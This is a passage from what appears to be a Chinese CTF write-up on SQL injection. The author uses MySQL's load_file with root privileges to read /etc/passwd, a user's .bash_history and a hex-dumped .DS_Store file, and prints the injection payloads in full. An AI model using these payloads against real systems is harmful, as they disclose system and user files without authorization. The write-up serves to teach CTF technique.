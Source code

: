 <img src="https://i-blog.csdnimg.cn/blog_migrate/0f16f3db33324cf3c64f458fcbe0d3a3.png" alt="" style="max-height:117px; box-sizing:content-box;" />


发现是root权限

那么多半就是 读取了

load_file可以读取

我们读取看看

这里又是另一个文件读取的方法了

之前做的题 proc这里没有用

## 任意文件读取

### .bash_history

我们首先去查看 etc/passwd

```cobol
0',content=(select load_file('/etc/passwd')),/*
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/753d4377417ad66e384a4335cc99076c.png" alt="" style="max-height:493px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/ef5940301ab92e63f20e32d5c226f4b0.png" alt="" style="max-height:89px; box-sizing:content-box;" />


发现存在 www用户 我们去看看他的历史命令

```cs
0',content=(select load_file('/home/www/.bash_history')),/*
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/efcc77bf4a62acde607ecea049e8414c.png" alt="" style="max-height:96px; box-sizing:content-box;" />


这里发现了 是删除了 .DS_Store

但是ctf环境一般都是docker环境 所以在

/tmp/html下还会存在

我们去读取

```cobol
0',content=(select hex(load_file('/tmp/html/.DS_Store'))),/*


这里需要通过十六进制输出 因为会有很多不可见的字符
```

## .DS_Store泄露
